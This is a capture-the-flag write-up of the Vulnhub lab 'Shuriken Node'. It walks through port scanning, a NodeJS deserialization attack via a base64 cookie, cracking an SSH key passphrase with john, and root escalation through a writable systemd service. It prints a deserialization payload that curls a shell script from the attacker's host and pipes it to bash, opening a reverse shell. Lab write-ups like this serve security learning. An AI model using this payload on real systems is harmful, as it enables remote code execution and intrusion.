Shuriken Node Writeup [Vulnhub]
Shuriken Node is a Linux based machine created by TheCyb3rW0lf, it is the second machine on his series of Shuriken, we will get access to this machine exploiting a NodeJS deserealization vulnerability, find the ssh key of another using lying on the system, bruteforce the password of that key using john, and escalate privileges manipulating a service configuration file on which we have total privileges.
Enumeration
First we use arp-scan to find the IP of the machine on our network.

We see that the machine is the 192.168.56.10, so we use nmap to find the open ports and then make a deeper scan on those ports.
nmap -p- -Pn -n -T 4 192.168.56.10
nmap -sC -sV -p 22,8080, -Pn -o scan.txt 192.168.56.10
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 85:67:c9:bb:4b:ec:68:75:ea:37:b1:74:42:aa:02:a0 (RSA)
| 256 38:49:9a:87:63:f5:5b:5f:ac:0e:70:5d:68:7c:63:de (ECDSA)
|_ 256 0b:22:59:fb:44:ee:b2:8f:a5:75:b2:45:70:1a:b9:ec (ED25519)
8080/tcp open http Node.js Express framework
|_http-title: Shuriken – Your reliable news source – Try Now!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
There is only two ports, SSH and a page on NodeJS so we go and check it.

Gaining Access
The webpage is a kind of blog and we see that it talks about NodeJS vulnerabilities, we check the request with Burp, and we see that a cookie is set.

It looks like it is base64 encoded, and when we decode it we get {"username":"Guest","isGuest":true,"encoding": "utf-8"}, there is two interesting values, “isGuest” and “username”, if we find a site where we can’t access we could try to manipulate those values to gain access. If we go to the page we se that there is the message, “Welcome, guest”, so let’s see if that value if reflected when we modify the coookie, so let’s replace it with, {"username":"5ubterranean","isGuest":true,"encoding": "utf-8"}

As we expected the value is reflected, so we know that the values inside the cookie are procesed, the page talks about NodeJS vulnerabilities, and since json is being processed we can be in front of a NodeJS deserealization vulnerability, we search about it and find an article that looks like exactly like this scenario. The article proposes a reverse shell using named pipes and a nc version that doesn’t support “-e” option, I rather use curl to request a reverse shell and pipe it to bash, so I write a file called “shell.sh” which contains a bash reverse shell command, and host it with python3 -m http.server, then modify the code so it requests my file, and after executing the file we get the serialized value:
Serialized:
{"test":"_$$ND_FUNC$$_function(){\n require('child_process').execSync(\"curl 192.168.56.130:8000/shell.sh | bash\", {});\n}"}
We add the serialized string to the cookie (don’t forget to add the “()” at the end so it gets executed), encode it with base64 and use repeater to send it to the target server.

We don’t get an answer, so we check our listeners and we see that the reverse shell file was requested and we have a shell to the machine.


Lateral Movement
After enumrating the system for a while we put our attention on the other user that has access to the machine, “serv-adm”, so we search for any file that belongs to him, we find a file called ssh-backup.zip that contains his ssh key.

We copy the key to our machine and find out that it requires a password, so we use ssh2john and john to figure out the password.

The password is “shuriken1995@”, so now we can connect as serv-adm through ssh.

Privilege Escalation
We check what we can run as root, and we see that we can start and stop the service “shuriken-auto.timer”, and reload the daemon.

Services are defined by systemd files, which are located at /etc/systemd/system, so we go there to check what exactly that service does, we see that we own the file corresponding to that service, and also there is another file “shuriken-job.service”.

To understand what those files do we can read some blogs and overall the man of timer, unit and service. So the service that we can start ends on .timer, this is a service that executes another services we can’t actually put commands here to be ran, so let’s see what it does.
[Unit]
Description=Run Shuriken utilities every 30 min
[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=shuriken-job.service
[Install]
WantedBy=basic.target
It has two timers stablished, the first one runs on boot, and the other one runs every 30 minutes (it doesn’t run every 30 minutes from boot time, but when the clock hits 30 and 0), what it happens at those times is that “shuriken-job.service” is started, so let’s see what it does.
[Unit]
Description=Logs system statistics to the systemd journal
Wants=shuriken-auto.timer
[Service]
# Gather system statistics
Type=oneshot
ExecStart=/bin/df
[Install]
WantedBy=multi-user.target
There is only two important things to notice, if shuriken-auto.timer isn’t running this service won’t start, and what it does is to run /bin/df. Besides reading the manual to understand what those files do we can start the service and see what it tells us.

As we see we get the description of the service, the service is running but waiting, and that the trigger will occur on 23 minutes, so to exploit this first we need to create a file with a reverse shell code and make it executable, I do it on the tmp folder and call it “rev”, then we edit shuriken-job.service so it runs our reverse shell instead of df (use absolute path to the file), after that we don’t want to wait 30 minutes to get our shell so we modify shuriken-auto.timer to make it run every minute, to do that we change *:0/30 to *:0/60, finally we reload the daemon and restart the service, if you are testing changes without knowing if they will work is better to do everything in one line, sudo systemctl daemon-reload; sudo systemctl stop shuriken-auto.timer; sudo systemctl start shuriken-auto.timer, with that when the service is ran we will get a shell as root.

Final Thoughts
Deserealization is a serius problem, so if you really need to serialize data make sure to check everything that comes serialized, also there is nothing wrong with writing services files, but the files should be owned by root, also if there is no need to them to be ran as root you can specify as which user you want them to run.